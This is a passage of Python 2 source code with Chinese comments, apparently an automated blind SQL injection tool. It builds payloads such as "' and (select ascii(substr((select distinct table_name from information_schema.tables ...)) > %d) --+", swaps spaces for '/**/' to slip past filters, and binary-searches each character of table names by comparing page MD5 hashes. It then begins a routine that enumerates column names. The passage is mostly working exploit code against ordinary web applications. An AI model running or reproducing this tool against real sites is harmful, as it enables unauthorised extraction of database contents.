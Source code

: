             if standard_md5 == mid_md5_html:
                low = mid + 1
            else:
                high = mid-1

            table_name_len = (low+high+1)/2
        # print db_name_len
        print "\ttable name is: ",
        for x in xrange(1,table_name_len+1):   #一次for循环输出表名的一个字符
            low = 32
            high = 126
            while low <= high: #循环结束后得到表名的一个字符的ASCII码
                mid = (low + high)/2
                payload = "' and (select ascii(substr((select distinct table_name from information_schema.tables where table_schema=%s limit %d,1), %d, 1)) > %d) --+" % (db_name_hex,index,x,mid)
                # print payload
                payload = "/**/".join(payload.split())
                mid_url = url + payload
                mid_md5_html = get_md5_html(mid_url)

                if standard_md5 == mid_md5_html:
                    low = mid + 1
                else:
                    high = mid-1

                str_ascii = (low+high+1)/2
            table_name_one_str = chr(str_ascii)
            sys.stdout.write(table_name_one_str)
            sys.stdout.flush()
        print 

def getAllColumnsByTable(url,table_name,db_name):
    # print "getAllColumnsByTable"
    #while循环结束后得到列的个数
    #for循环，一次得到一列的列名：
        #while循环得到列名的长度：
        #for循环，一次得出列名的一个字符
    # print url
    # print table_name
    # print db_name
    standard_md5 = get_md5_html(url)
    table_name_hex = "0x" + binascii.b2a_hex(table_name)
    db_name_hex = "0x" + binascii.b2a_hex(db_name)
    # print standard_md5
